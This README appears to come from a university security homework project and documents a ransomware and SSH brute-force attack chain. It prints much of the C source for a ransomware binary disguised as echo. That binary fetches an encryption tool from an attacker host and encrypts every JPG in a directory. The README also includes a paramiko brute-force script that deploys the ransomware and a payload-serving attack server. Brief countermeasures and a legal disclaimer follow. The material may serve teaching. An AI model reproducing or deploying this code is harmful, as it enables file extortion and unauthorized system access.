

# Ransomware and Malware Attacks - CSC Homework 3

## 專案概述 (Project Overview)

This project demonstrates **Ransomware and Malware attack techniques** including file encryption, SSH brute force attacks, and malware deployment. The implementation showcases how attackers can compromise systems, encrypt victim files, and deploy malicious payloads through various attack vectors.

## 攻擊類型 (Attack Types)

### 1. Ransomware Attack (勒索軟體攻擊)
- **目標**: 加密受害者的檔案並要求贖金
- **實現**: `echo.c` - 偽裝成 echo 命令的勒索軟體
- **影響**: 檔案被加密，系統功能受損

### 2. SSH Brute Force Attack (SSH 暴力破解攻擊)
- **目標**: 通過暴力破解獲得 SSH 存取權限
- **實現**: `crack_attack` - Python 腳本進行密碼破解
- **影響**: 未授權的系統存取

### 3. Malware Deployment (惡意軟體部署)
- **目標**: 在受害系統上部署惡意軟體
- **實現**: `attack_server` - 攻擊者伺服器提供惡意軟體
- **影響**: 系統被植入惡意軟體

## 檔案結構 (File Structure)

```
csc_hw3/
├── echo.c                 # 勒索軟體主程式 (偽裝成 echo)
├── crack_attack           # SSH 暴力破解腳本
├── attack_server          # 攻擊者伺服器
├── Makefile              # 編譯設定檔
└── csc-project3.pdf      # 專案需求文件
```

## 攻擊流程圖 (Attack Flow Diagram)

### 完整攻擊流程


## 程式碼分析 (Code Analysis)

### 1. Ransomware Attack (`echo.c`)

#### 核心功能
```c
// 壓縮的 echo_gz.h 檔案（從 xxd -i 得來）
#include "echo_gz.h"

// 下載檔案（從伺服器）
int download_file(const char *request, const char *output_path) {
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    // ... 建立 TCP 連接並下載檔案
}
```

**攻擊流程**:
1. **下載加密工具**: 從攻擊者伺服器下載 `aes-tool`
2. **檔案加密**: 加密 `/app/Pictures/` 目錄下的所有 JPG 檔案
3. **顯示勒索訊息**: 下載並顯示 banner 檔案
4. **偽裝執行**: 解壓並執行原始的 echo 命令

#### 關鍵函數分析

##### 檔案下載功能
```c
int download_file(const char *request, const char *output_path) {
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock < 0) {
        perror("socket");
        return -1;
    }

    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(ATTACKER_PORT);
    inet_pton(AF_INET, ATTACKER_IP, &server.sin_addr);

    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        perror("connect");
        close(sock);
        return -1;
    }

    send(sock, request, strlen(request), 0);

    FILE *fp = fopen(output_path, "wb");
    if (!fp) {
        perror("fopen");
        close(sock);
        return -1;
    }

    char buffer[BUFFER_SIZE];
    ssize_t bytes;
    while ((bytes = recv(sock, buffer, sizeof(buffer), 0)) > 0) {
        fwrite(buffer, 1, bytes, fp);
    }

    fclose(fp);
    close(sock);
    return 0;
}
```

**功能說明**:
- 建立 TCP 連接到攻擊者伺服器
- 發送檔案請求
- 接收並保存檔案到本地

##### 檔案加密功能
```c
void encrypt_jpgs_in_app_pictures() {
    const char *dir_path = "/app/Pictures/";
    DIR *dir = opendir(dir_path);
    struct dirent *entry;

    if (!dir) {
        perror("Failed to open /app/Pictures/");
        return;
    }

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_REG) {
            const char *filename = entry->d_name;
            size_t len = strlen(filename);

            // Check if filename ends with .jpg
            if (len > 4 && strcmp(filename + len - 4, ".jpg") == 0) {
                char input_path[512];
                char temp_output_path[512];
                char cmd[1024];

                snprintf(input_path, sizeof(input_path), "%s%s", dir_path, filename);
                snprintf(temp_output_path, sizeof(temp_output_path), "%s%s.tmp", dir_path, filename);
                snprintf(cmd, sizeof(cmd), "/tmp/aes-tool enc \"%s\" \"%s\"", input_path, temp_output_path);

                // 執行加密
                system(cmd);

                // 刪除原始檔
                remove(input_path);
                rename(temp_output_path, input_path); // 把 temp 改回原本檔名
            }
        }
    }

    closedir(dir);
}
```

**功能說明**:
- 掃描 `/app/Pictures/` 目錄
- 找到所有 `.jpg` 檔案
- 使用 `aes-tool` 加密檔案
- 替換原始檔案

##### 偽裝執行功能
```c
void restore_and_execute_echo(int argc, char *argv[]) {
    const char *gz_path = "echo.gz";
    const char *echo_path = "orin_echo";

    // 寫入 echo.gz
    FILE *fp = fopen(gz_path, "wb");
    if (!fp) {
        perror("fopen gzip");
        return;
    }
    fwrite(echo_gz, 1, echo_gz_len, fp);
    fclose(fp);

    // 解壓縮成 echo 可執行檔
    char cmd[256];
    snprintf(cmd, sizeof(cmd), "gzip -d -c %s > %s", gz_path, echo_path);
    if (system(cmd) != 0) {
        fprintf(stderr, "❌ 解壓縮 echo.gz 失敗\n");
        return;
    }

    // 設定可執行權限
    chmod(echo_path, 0755);

    // 準備參數（argv[0] 為 "echo"，argv[1...] 是原始參數）
    char *exec_args[argc + 1];
    exec_args[0] = "echo";
    for (int i = 1; i < argc; ++i) {
        exec_args[i] = argv[i];
    }
    exec_args[argc] = NULL;

    // fork + execv
    pid_t pid = fork();
    if (pid == 0) {
        execv(echo_path, exec_args);
        perror("execv");
        exit(1);
    } else if (pid > 0) {
        waitpid(pid, NULL, 0);
    } else {
        perror("fork");
    }
    remove(gz_path);
    remove(echo_path);
}
```

**功能說明**:
- 解壓縮內嵌的原始 echo 程式
- 執行原始 echo 命令以維持偽裝
- 清理臨時檔案

### 2. SSH Brute Force Attack (`crack_attack`)

#### 核心功能
```python
#!/usr/bin/env python3
import itertools
import paramiko
import sys
import time
import subprocess

victim_ip = sys.argv[1]
attacker_ip = sys.argv[2]
attacker_port = int(sys.argv[3])
username = "csc2025"

# 讀取 victim.dat
with open("/app/victim.dat", "r") as f:
    words = [line.strip() for line in f.readlines()]

# 產生可能的密碼組合
password_list = []
for i in range(1, len(words) + 1):
    password_list.extend(["".join(combo) for combo in itertools.permutations(words, i)])
```

**攻擊流程**:
1. **密碼字典**: 從 `victim.dat` 讀取可能的密碼字詞
2. **密碼生成**: 使用排列組合生成所有可能的密碼
3. **暴力破解**: 逐一嘗試 SSH 登入
4. **惡意軟體部署**: 成功登入後部署勒索軟體

#### 關鍵函數分析

##### SSH 連線嘗試
```python
def try_ssh(password, retries=3):
    for attempt in range(retries):
        try:
            client = paramiko.SSHClient()
            client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            client.connect(victim_ip, username=username, password=password, timeout=2)

            print(f"✔ 成功登入！密碼是：{password}")

            push_echo(client)

            client.close()
            exit(0)  # 找到密碼後立即退出
        
        except paramiko.ssh_exception.AuthenticationException:
            print(f"❌ 密碼錯誤，跳過密碼：{password}")
            return  # 密碼錯誤，直接跳過，不重試
        
        except (paramiko.ssh_exception.SSHException, EOFError):
            print(f"⚠ SSH 連線錯誤，重試（{attempt+1}/{retries}）...")
            time.sleep(1)  # 短暫等待後重試
        
        except Exception as e:
            print(f"⚠ 未知錯誤：{e}")
            return  # 如果是未知錯誤，就直接跳過
```

**功能說明**:
- 嘗試 SSH 連線
- 處理各種連線錯誤
- 成功後立即部署惡意軟體

##### 惡意軟體準備
```python
def prepare_echo(attacker_ip, attacker_port):
    private_key_path = "/app/certs/host.key"

    # 複製 echo 並壓縮、轉換成 C 可以處理的數據
    subprocess.run(["cp", "/usr/bin/echo", "orin_echo"], check=True)
    subprocess.run("gzip -c orin_echo > echo.gz", shell=True, check=True)
    subprocess.run("xxd -i echo.gz > echo_gz.h", shell=True, check=True)

    # 編譯 echo.c
    compile_cmd = f"gcc -o echo echo.c -DATTACKER_IP='\"{attacker_ip}\"' -DATTACKER_PORT={attacker_port}"
    subprocess.run(compile_cmd, shell=True, check=True)

    # 調整大小、附上簽名
    subprocess.run("truncate -s $((35208 - 512)) echo", shell=True, check=True)
    subprocess.run(f"openssl dgst -sha3-512 -sign {private_key_path} -out signature echo", shell=True, check=True)
    subprocess.run("tail -c 512 signature >> echo", shell=True, check=True)
```

**功能說明**:
- 準備原始 echo 程式
- 編譯勒索軟體
- 添加數位簽章

### 3. Attack Server (`attack_server`)

#### 核心功能
```python
#!/usr/bin/env python3
import socket
import sys

PORT = int(sys.argv[1])
HOST = "0.0.0.0"

# 設定可供下載的勒索病毒與訊息
files = {
    "aes-tool": "/app/aes-tool",  # 編譯後的加密工具
    "banner": "/app/banner"  # 勒索訊息
}

def start_server():
    print(f"🔥 攻擊伺服器啟動中 ({HOST}:{PORT})...")
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((HOST, PORT))
    server.listen(5)

    while True:
        conn, addr = server.accept()
        print(f"⚡ 來自 {addr} 的請求")
        request = conn.recv(1024).decode().strip()

        if request in files:
            with open(files[request], "rb") as file:
                conn.sendall(file.read())  # 傳送所需的文件
            print(f"📤 傳送 {request} 給 {addr}")
        else:
            conn.sendall(b"ERROR: File not found")

        conn.close()
```

**功能說明**:
- 建立 TCP 伺服器
- 提供惡意軟體下載
- 記錄攻擊活動

## 技術細節 (Technical Details)

### 勒索軟體技術
- **檔案加密**: 使用 AES 加密演算法
- **目標檔案**: 專門針對 JPG 圖片檔案
- **偽裝技術**: 偽裝成系統的 echo 命令
- **數位簽章**: 使用私鑰簽署惡意軟體

### SSH 暴力破解技術
- **密碼生成**: 使用排列組合生成密碼
- **連線重試**: 實現重試機制處理網路錯誤
- **自動化部署**: 成功登入後自動部署惡意軟體

### 惡意軟體部署技術
- **檔案傳輸**: 使用 SFTP 上傳惡意軟體
- **權限設定**: 自動設定執行權限
- **清理機制**: 執行後清理臨時檔案

## 安全影響 (Security Implications)

### 直接影響 (Direct Impact)
1. **檔案加密**: 受害者的重要檔案被加密
2. **系統入侵**: 攻擊者獲得系統存取權限
3. **資料洩露**: 敏感資料可能被竊取
4. **服務中斷**: 系統功能受損

### 間接影響 (Indirect Impact)
1. **經濟損失**: 可能造成直接的經濟損失
2. **聲譽損害**: 組織的網路安全聲譽受損
3. **法律責任**: 可能面臨法律訴訟
4. **業務中斷**: 可能導致業務運營中斷

## 防護措施 (Countermeasures)

### 勒索軟體防護
1. **檔案備份**: 定期備份重要檔案
2. **檔案監控**: 監控異常的檔案修改
3. **權限控制**: 限制檔案存取權限
4. **惡意軟體檢測**: 部署防毒軟體

### SSH 安全防護
1. **強密碼政策**: 使用複雜的密碼
2. **多因子認證**: 啟用 2FA
3. **IP 白名單**: 限制 SSH 存取來源
4. **失敗鎖定**: 實施帳戶鎖定機制

### 一般防護措施
1. **網路分段**: 隔離重要系統
2. **入侵檢測**: 部署 IDS/IPS 系統
3. **安全更新**: 定期更新系統和軟體
4. **用戶教育**: 提高安全意識

## 法律聲明 (Legal Disclaimer)

⚠️ **重要警告**: 此專案僅供教育和研究目的使用。未經授權的網路攻擊是違法行為。使用者必須：

1. 只在自己的網路環境中測試
2. 獲得所有相關方的明確許可
3. 遵守當地法律法規
4. 不得用於惡意目的

## 環境需求 (Requirements)

- C 編譯器 (gcc)
- Python 3.x
- OpenSSL 庫
- Paramiko 庫
- zlib 庫
- Linux 系統

## 故障排除 (Troubleshooting)

### 常見問題

1. **編譯錯誤**
   - 確保安裝了所有必要的開發庫
   - 檢查 OpenSSL 庫版本

2. **SSH 連線失敗**
   - 檢查網路連接
   - 確認 SSH 服務狀態

3. **檔案加密失敗**
   - 檢查 aes-tool 權限
   - 確認目標目錄存在

4. **惡意軟體部署失敗**
   - 檢查 SFTP 權限
   - 確認目標路徑可寫

## 結論 (Conclusion)

此專案展示了勒索軟體和惡意軟體攻擊的完整實現，包括：

- 檔案加密和勒索
- SSH 暴力破解攻擊
- 惡意軟體部署技術
- 偽裝和隱藏技術

理解這些攻擊技術有助於：

1. 提高網路安全意識
2. 開發更好的防護機制
3. 進行有效的安全測試
4. 教育用戶安全最佳實踐

記住，這些技術應該只用於合法的安全研究和教育目的。
